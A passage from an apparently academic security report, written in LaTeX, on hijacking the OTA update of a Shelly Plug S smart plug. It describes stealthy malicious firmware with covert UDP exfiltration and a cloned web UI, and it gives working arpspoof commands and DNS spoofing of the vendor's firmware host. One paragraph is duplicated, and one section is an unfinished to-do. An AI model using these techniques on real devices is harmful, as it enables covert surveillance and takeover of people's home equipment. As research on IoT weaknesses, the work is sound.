    \caption{Exfiltrated telemetry data stored in MongoDB, queried from the \texttt{iot\_data.telemetry} collection}
    \label{fig:mongodb}
\end{figure}

\subsubsection{MQTT Operation }
To ensure the compromise remains stealthy, the firmware replicates the standard MQTT (Message Queuing Telemetry Transport) communication patterns of the original Shelly Plug S. By reporting operational data to the expected broker, the firmware ensures the plug continues to function normally within the user's home automation dashboard, thereby avoiding suspicion. The MQTT implementation consists of two complementary publishing functions:

\begin{itemize}
    \item \texttt{publish\_status()} (Figure~\ref{fig:publish_status}): 

    \begin{itemize}
        \item Publishes the relay state to \texttt{shellies/shellyplug-s-DC43B6/relay/0}
        \item Publishes a a JSON status object, containing relay state and uptime, to \\ \texttt{shellies/shellyplug-s-DC43B6/status}
    \end{itemize}
    
    
    \item \texttt{publish\_energy()} (Figure~\ref{fig:publish_energy}): Publishes power (W), cumulative energy (Wh), and temperature readings to dedicated MQTT topics. Respectively to:

    \begin{itemize}
        \item \texttt{shellies/shellyplug-s-DC43B6/power}
        \item \texttt{shellies/shellyplug-s-DC43B6/energy}
        \item \texttt{shellies/shellyplug-s-DC43B6/temperature}
    \end{itemize}
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/PublishStatus.png}
    \caption{MQTT \texttt{publish\_status()} function: relay state and device status broadcasting}
    \label{fig:publish_status}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/PublishEnergy.png}
    \caption{MQTT \texttt{publish\_energy()} function: power, energy, and temperature telemetry publishing}
    \label{fig:publish_energy}
\end{figure}

\noindent This separation of duties serves a dual purpose: the MQTT channel ensures that the device remains fully operational and visible in any existing home automation dashboard (e.g., Home Assistant), thereby reducing the likelihood of detection, while the UDP channel acts as the covert data stream directly to the attacker's database. Although both communication channels point to the same server IP in this experiment for setup simplicity, they represent independent logical paths: MQTT replicates the legitimate UI/backend connection, whereas UDP performs the stealthy exfiltration. Figure~\ref{fig:mqtt_redfw} shows the MQTT telemetry captured via \texttt{mosquitto\_sub}, confirming the successful publication of standard power, energy, and temperature readings from the compromised device, demonstrating that the behavioral camouflage is fully functional.

\noindent This separation of duties serves a dual purpose: the MQTT channel ensures that the device remains fully operational and visible in any existing home automation dashboard (e.g., Home Assistant), to avoid raising suspicion., while the UDP channel acts as the covert data stream directly to the attacker's database. 



\subsubsection{Web Interface and Deception}
The malicious firmware also includes a fully functional \textbf{web interface} (Figure~\ref{fig:redfw_ui}), designed to closely replicate the look and feel of the original Shelly Plug S web UI. This design choice is intentional: should the device owner access the local web interface, the familiar visual appearance reduces the likelihood of suspicion. The interface provides standard operational features (relay toggle, power monitoring, WiFi configuration, change MQTT broker IP address)

\medskip
\noindent At the first boot, the malicious firmware activates its own WiFi (\texttt{ShellyPlugS-Setup}), as shown in Figure~\ref{fig:wifi_setup}, allowing the attacker to connect directly and reconfigure the device's network settings and MQTT broker address through the embedded web interface.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.65\linewidth]{Images/Fase2/WifiSetup.png}
    \caption{The malicious firmware creates a \texttt{ShellyPlugS-Setup} access point for initial configuration}
    \label{fig:wifi_setup}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.90\linewidth]{Images/Fase2/InterfacciaRedfw.png}
    \caption{Embedded web interface of the malicious firmware, designed to replicate the original Shelly Plug S UI}
    \label{fig:redfw_ui}
\end{figure}





\section{Man-in-the-Middle (MITM) Attack}
The malicious firmware was compiled and packaged as a \texttt{.zip} archive using the Mongoose OS CLI command \texttt{mos build --platform esp8266}, matching the framework employed by the original firmware. This choice ensured full compatibility and a well-structured bundle, making it ready to be delivered to the target device via OTA.

\medskip
\noindent We implemented and tested two attack variants, both exploiting the device's \textbf{lack of cryptographic verification} during the OTA update process. The two approaches differ significantly in their prerequisites, level of stealth, and exploitation surface:

\begin{itemize}
    \item \textbf{Variant A: Classic Man In The Middle Attack (ARP Poisoning + DNS Spoofing)} 

    \noindent A fully transparent network-level attack that hijacks the device's legitimate firmware update check, making it download malicious firmware believing it comes from the official Shelly cloud.
    
    \item \textbf{Variant B: Direct OTA Endpoint Exploitation}

    \noindent A simpler attack that directly abuses the unauthenticated \texttt{/ota} HTTP endpoint exposed by the Shelly firmware to force the device to download firmware from an arbitrary URL.
\end{itemize}

\noindent The initial state of the target device before executing the attack is shown in Figure~\ref{fig:mitm_pre}: the device runs the original Shelly firmware (v1.10.0), which indicates an available official update (v1.14.0).

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.80\linewidth]{Images/Fase2/MITM0.jpg}
    \caption{Pre-attack state: original Shelly firmware UI showing the current version (v1.10.0) and available update (v1.14.0)}
    \label{fig:mitm_pre}
\end{figure}

\subsection{How OTA Update Works on Shelly Plus S Gen 1}
%To do. Explain how official OTA work, and how we can do a MITM attack

\subsection{Variant A: Classic MITM --- ARP Poisoning \& DNS Spoofing}
The key characteristic of this attack is that the device is not forcibly updated; instead, the attack silently \emph{hijacks} the legitimate update process. Consequently, when the user clicks on "Update Firmware Version", believing it to be an official release, it causes the installation of our malicious firmware.

\subsubsection{Attack Infrastructure}
The setup required the execution of \textbf{four concurrent processes}, coordinated in a \texttt{tmux} terminal (Figure~\ref{fig:mitm_setup}):

\begin{enumerate}
    \item \textbf{ARP Poisoning (Gateway $\rightarrow$ Device)}: The \texttt{arpspoof} tool was used to poison the ARP cache of the local gateway (192.168.1.1), causing it to associate the Shelly's IP address (192.168.1.19) with the attacker's MAC address. This ensures that all packets the gateway intends to send to the Shelly are instead routed through the attacker's machine:

    \begin{bashcode}
sudo arpspoof -i wlo1 -t 192.168.1.1 192.168.1.19    
    \end{bashcode}
     
\item \textbf{ARP Poisoning (Device $\rightarrow$ Gateway)}: Symmetric ARP poisoning was executed in the opposite direction, forcing the Shelly device to route all its \emph{outbound} traffic (including DNS queries and HTTP requests) through the attacker's machine:

    \begin{bashcode}
sudo arpspoof -i wlo1 -t 192.168.1.19 192.168.1.1        
    \end{bashcode}

    \noindent \textit{Note}: The syntax of \texttt{arpspoof} is \texttt{arpspoof [-i interface] [-t target] host}, where \texttt{-i} specifies the network interface, \texttt{-t} specifies the victim to which the modified ARP packets are sent, and \texttt{host} specifies the host to impersonate.

    \item \textbf{DNS Spoofing}: The \texttt{dnsspoof} tool was configured with a custom \texttt{hosts.txt} file to intercept the Shelly's DNS queries for \texttt{firmware.shelly.cloud} and respond with the attacker's local IP address (192.168.1.20). 
    
